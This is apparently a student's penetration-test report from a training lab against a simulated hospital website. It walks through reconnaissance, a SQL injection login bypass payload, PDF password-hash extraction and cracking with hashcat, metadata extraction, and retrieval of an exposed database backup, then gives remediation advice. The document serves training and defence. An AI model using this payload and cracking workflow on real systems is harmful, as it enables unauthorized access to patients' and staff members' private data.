


# Penetration Testing — Mediroza General Hospital

Client: Mediroza General Hospital  
Target: https://medirozahospital.com  
Type: Black-box Penetration Test  
Duration: 5 Days  
Tester: Bhabani Priyadarshini Panda (Networkwalks B083)  
Authorization: Written permission granted by client

---

# 1. Executive Summary

A black-box penetration test was conducted against the authorized Mediroza General Hospital training environment.

The assessment identified a SQL Injection vulnerability in the patient portal login that allowed authentication to be bypassed without valid credentials. This provided access to the patient portal and enabled retrieval of three confidential patient pathology report PDFs.

The retrieved PDF files were protected with weak passwords. The passwords were recovered using PDF password-hash extraction and password-cracking techniques.

Further analysis of the recovered documents revealed sensitive metadata containing an internal server path. The disclosed path led to a publicly accessible directory containing a database backup.

The backup contained sensitive staff and shareholder information, demonstrating how multiple weaknesses could be chained together to produce significant information disclosure.

---

# 2. Scope and Methodology

## Scope

The assessment was limited to the authorized Mediroza General Hospital training target:

```text
https://medirozahospital.com
```

The assessment followed the rules provided by Networkwalks:

- Testing was limited to the target domain.
- No social engineering was performed.
- No denial-of-service testing was performed.
- Testing was conducted under written authorization.
- The environment was used for cybersecurity training and penetration-testing practice.

## Methodology

The assessment followed the following general methodology:

```text
Reconnaissance
      ↓
Enumeration
      ↓
Authentication Testing
      ↓
Exploitation
      ↓
Data Retrieval
      ↓
File Analysis
      ↓
Password Recovery
      ↓
Metadata Analysis
      ↓
Further Enumeration
      ↓
Sensitive Data Discovery
      ↓
Documentation
```

## Tools Used

| Tool | Purpose |
|---|---|
| `whatweb` | Web technology fingerprinting |
| `wafw00f` | WAF detection |
| `gobuster` | Directory and content enumeration |
| `Burp Suite` | HTTP request interception and manipulation |
| `pdf2john` | PDF password-hash extraction |
| `hashcat` | Password recovery |
| `qpdf` | PDF decryption and analysis |
| `exiftool` | Metadata extraction |
| `curl` | Resource retrieval |

---

# 3. Findings and Proof of Exploitation

## Task 1 — Reconnaissance and Web Enumeration

Initial reconnaissance was performed against the authorized target to identify exposed web technologies, directories, and application entry points.

### Web Technology Fingerprinting

`whatweb` was used to identify technologies associated with the target web application.

### Command

```bash
whatweb https://medirozahospital.com
```

### Information Observed

The fingerprinting process can identify information such as:

- Web server technologies
- Programming languages
- Frameworks
- CMS components
- HTTP headers
- Cookies
- Other web application technologies

### Result

The reconnaissance phase provided information about the technologies used by the target and helped identify areas for further testing.



---

## Task 2 — WAF Detection

`wafw00f` was used to determine whether a Web Application Firewall was present in front of the target application.

### Command

```bash
wafw00f https://medirozahospital.com
```

### Information Observed

The tool attempts to determine:

- Whether a WAF is present
- The WAF vendor, when identifiable
- The security layer protecting the web application

### Result

The WAF detection process provided additional information about the target's defensive configuration.


---

## Task 3 — Directory and Content Enumeration

`gobuster` was used during the enumeration phase to identify accessible directories and application resources.

### Command

```bash
gobuster dir -u https://medirozahospital.com -w <wordlist>
```

### Information Observed

Directory enumeration can reveal:

- Login pages
- Application directories
- Backup locations
- Administrative paths
- Publicly accessible resources
- Other hidden content

### Result

The enumeration process helped identify application endpoints that were relevant to the subsequent security assessment.


---

# Part 2 — Authentication Testing

## Task 4 — Patient Portal Login Testing

The patient portal login endpoint was intercepted using Burp Suite.

### Endpoint

```text
POST /patient/login.php
```

### Request Parameters

```text
username=<username>&password=<password>
```

The authentication mechanism was tested by modifying the values supplied to the login parameters.

### SQL Injection Payload

The following payload was used in the authorized training environment:

```text
username=admin'-- -&password=test
```

### Explanation

The single quote terminates the value being inserted into the SQL statement.

The comment sequence causes the remainder of the SQL statement, including the password-checking portion, to be ignored when the application constructs the query unsafely.

Conceptually, an insecure query may behave like:

```sql
SELECT * FROM users
WHERE username = 'admin'-- -'
AND password = 'test';
```

The injected comment prevents the password condition from being evaluated as intended.

### Result

The server returned:

```text
HTTP/2 302 Found
Location: portal.php
```

The redirect to `portal.php` confirmed that the authentication mechanism had been bypassed in the authorized training environment.


---

## Task 5 — Patient Portal Access

After successful authentication bypass, the patient portal became accessible.

The portal contained three confidential patient pathology reports.

### Retrieved Files

```text
patient_report_1.pdf
patient_report_2.pdf
patient_report_3.pdf
```

The portal displayed information including:

- Patient report names
- Laboratory reference numbers
- Report dates
- PDF download links

### Result

The three patient reports were successfully retrieved for further analysis.


---

# Part 3 — PDF Password Recovery

## Task 6 — Analyse PDF Protection

The retrieved patient reports were password protected.

The first step was to determine the type of protection applied to the PDFs.

### Command

```bash
pdfinfo patient_report_1.pdf
```

The same process was repeated for the other retrieved files.

### Result

The PDF files were confirmed to require passwords before their contents could be accessed.

---

## Task 7 — Extract PDF Password Hashes

`pdf2john` was used to extract password-hash information from the encrypted PDF files.

### Command

```bash
pdf2john patient_report_1.pdf > patient1.hash
```

The process was repeated for the other PDF files:

```bash
pdf2john patient_report_2.pdf > patient2.hash
pdf2john patient_report_3.pdf > patient3.hash
```

### Result

The extracted hash information was prepared for password recovery using Hashcat.


---

## Task 8 — Crack the PDF Passwords

Hashcat was used to recover the passwords from the extracted PDF hashes.

### Command

```bash
hashcat -m 10500 patient1.hash <wordlist>
```

The same approach was applied to the remaining PDF hashes.

### Results

| File | Patient | Password | Crack Time |
|---|---|---|---|
| `patient_report_1.pdf` | S. Dlamini | `123456` | <1 sec |
| `patient_report_2.pdf` | P. Reddy | `password` | <1 sec |
| `patient_report_3.pdf` | E. Thompson | `!@#$%^&` | ~2 sec |

The third password was not present as a normal dictionary word, demonstrating why password-recovery testing may require techniques beyond a standard wordlist.

### Result

All three PDF passwords were successfully recovered.


---

## Task 9 — Decrypt the Recovered PDFs

`qpdf` was used to decrypt the password-protected PDFs after their passwords had been recovered.

### Command

```bash
qpdf --password='<recovered-password>' --decrypt patient_report_1.pdf patient1_decrypted.pdf
```

The same process was repeated for the remaining reports.

### Result

The encrypted PDF reports were successfully decrypted and their contents became accessible for further analysis.


---

# Part 4 — Metadata Analysis

## Task 10 — Extract PDF Metadata

After decrypting the reports, `exiftool` was used to inspect document metadata.

### Command

```bash
exiftool -a -u -g1 patient3_decrypted.pdf
```

### Information Observed

The metadata analysis can reveal information such as:

- Author
- Creator
- Producer
- Creation date
- Modification date
- Document properties
- Comments
- Internal notes

### Result

The metadata of `patient_report_3.pdf` contained an internal comment referencing an old server location.

The comment disclosed:

```text
DB backup moved to /old before site migration, do not delete
```

The metadata also contained an author reference:

```text
j.malik
```

This information revealed an internal path that could be investigated as part of the authorized assessment.



---

# Part 5 — Exposed Database Backup

## Task 11 — Investigate the Disclosed Directory

The path discovered through the PDF metadata was:

```text
https://medirozahospital.com/old/
```

The directory was found to have directory listing enabled.

### Result

The directory exposed a database backup file:

```text
mediroza_db_backup_2019.sql
```

The backup was approximately 6.3 KB in size.


---

## Task 12 — Retrieve the Database Backup

The exposed backup was retrieved using `curl`.

### Command

```bash
curl -O https://medirozahospital.com/old/mediroza_db_backup_2019.sql
```

### Result

The database backup was successfully retrieved without authentication.


---

## Task 13 — Analyse the Database Backup

The recovered SQL backup was inspected to identify the information stored within it.

### Data Exposed

The `staff` table contained:

- Full name
- Job title
- Department
- Email address
- Phone number
- National ID number
- Monthly salary

The `shareholders` table contained:

- Shareholder name
- Share percentage
- Shares held
- Share class

### Result

The database backup exposed sensitive staff personal information, salary information, and shareholder ownership information.


---

# Attack Chain

The complete attack chain identified during the assessment was:

```text
Reconnaissance
      ↓
Web Application Enumeration
      ↓
Patient Login Identified
      ↓
SQL Injection
      ↓
Authentication Bypass
      ↓
Patient Portal Access
      ↓
Three Confidential PDFs Retrieved
      ↓
PDF Password Hash Extraction
      ↓
Password Recovery with Hashcat
      ↓
PDF Decryption
      ↓
Metadata Extraction
      ↓
Internal /old/ Path Discovered
      ↓
Directory Listing Enabled
      ↓
Database Backup Exposed
      ↓
Staff and Shareholder Data Retrieved
```

---

# Results & Observations

The penetration test demonstrated how several individually exploitable weaknesses could be chained together.

## Finding 1 — SQL Injection Authentication Bypass

| Attribute | Details |
|---|---|
| Location | `POST /patient/login.php` |
| Vulnerability | SQL Injection |
| Impact | Authentication bypass |
| Risk | Critical |

The vulnerable login mechanism accepted unsanitized user input and allowed SQL syntax to alter the intended authentication query.

---

## Finding 2 — Weak PDF Encryption

| Attribute | Details |
|---|---|
| Location | Three patient report PDFs |
| Vulnerability | Weak document passwords |
| Impact | Confidential patient data exposure |
| Risk | High |

All three passwords were recovered quickly using password-cracking techniques.

---

## Finding 3 — Metadata Disclosure and Exposed Database Backup

| Attribute | Details |
|---|---|
| Location | `patient_report_3.pdf` and `/old/` |
| Vulnerability | Sensitive metadata disclosure and exposed backup |
| Impact | Staff PII, salary information and shareholder data exposure |
| Risk | Critical |

The document metadata disclosed an internal path that led to a publicly accessible database backup.

---

# Risk Rating

| Finding | Risk | Justification |
|---|---|---|
| SQL Injection — Authentication Bypass | Critical | Allowed authentication bypass and direct access to the patient portal |
| Weak PDF Encryption | High | Passwords were trivially recoverable and exposed confidential patient reports |
| Metadata Leak → Exposed Database Backup | Critical | Exposed staff PII, salary information and shareholder ownership data |

---

# Recommendations and Remediation

## 1. SQL Injection

- Use parameterized queries and prepared statements for all database interactions.
- Never concatenate user-controlled input directly into SQL statements.
- Implement server-side input validation.
- Apply appropriate database permissions.
- Consider WAF rules as an additional defensive layer rather than a replacement for secure coding.

## 2. PDF Protection

- Use strong, randomly generated passwords when password-protected documents are required.
- Avoid predictable passwords such as `123456`, `password`, or simple symbol sequences.
- Prefer authenticated and access-controlled document delivery where possible.
- Protect confidential patient information using appropriate encryption and access controls.

## 3. Document Metadata

- Remove unnecessary author and comment metadata before distributing documents.
- Avoid placing internal server paths, usernames, migration notes, or operational information inside document properties.
- Add metadata sanitization to document-generation workflows.

## 4. Exposed Database Backup

- Remove database backups from the public web root.
- Store backups outside publicly accessible directories.
- Disable directory listing on production web servers.
- Encrypt backups at rest.
- Apply strict access controls to backup storage.
- Review and rotate credentials or sensitive information exposed through the backup.

---

# What I Learned

## 1. Web Application Reconnaissance

I learned how reconnaissance and enumeration can reveal application technologies, directories, and potential entry points.

## 2. SQL Injection

I learned how unsafe handling of user input can allow an attacker to modify the intended SQL query and bypass authentication.

## 3. Burp Suite

I learned how Burp Suite can be used to intercept, inspect, modify, and replay HTTP requests during web application security testing.

## 4. PDF Password Recovery

I learned how encrypted PDF files can be analysed, how password hashes can be extracted using `pdf2john`, and how Hashcat can be used for authorized password-recovery testing.

## 5. Metadata Analysis

I learned that document metadata can contain information that is not visible in the document itself and can unintentionally disclose internal information.

## 6. Information Disclosure

I learned how an internal path disclosed through document metadata can lead to further discovery when exposed resources are not properly secured.

## 7. Attack Chaining

The assessment demonstrated how multiple weaknesses can be connected into a single attack path:

```text
SQL Injection
     ↓
Authentication Bypass
     ↓
Sensitive File Access
     ↓
Weak File Protection
     ↓
Metadata Disclosure
     ↓
Exposed Backup
     ↓
Sensitive Data Exposure
```

---

# Security & Ethical Use

All activities documented in this project were performed against an authorized Networkwalks training environment.

The techniques described in this repository must only be used against systems for which explicit authorization has been provided.

Unauthorized exploitation, password cracking, data retrieval, or security testing against third-party systems may be illegal and may cause harm.

---

# Tools & Resources

- **Burp Suite:** Web application security testing and HTTP request analysis
- **Hashcat:** Password recovery and security auditing
- **John the Ripper / pdf2john:** Password-hash extraction and password auditing
- **qpdf:** PDF decryption and analysis
- **ExifTool:** Metadata extraction and analysis
- **cURL:** HTTP resource retrieval
- **Gobuster:** Directory and content enumeration
- **WhatWeb:** Web technology fingerprinting
- **Wafw00f:** WAF detection

---

# Author

*Bhabani Priyadarshini Panda*  
**Computer Science Student**

---

## Project Information

**Program Name:** Cybersecurity at Networkwalks  
**Batch:** B083  
**Week:** 04  
**Project:** Mediroza General Hospital Penetration Testing  
**Platform:** Kali Linux  
**Testing Tool:** Burp Suite, Hashcat, pdf2john, qpdf, ExifTool, cURL, Gobuster, WhatWeb, Wafw00f  
**Repository:** GitHub
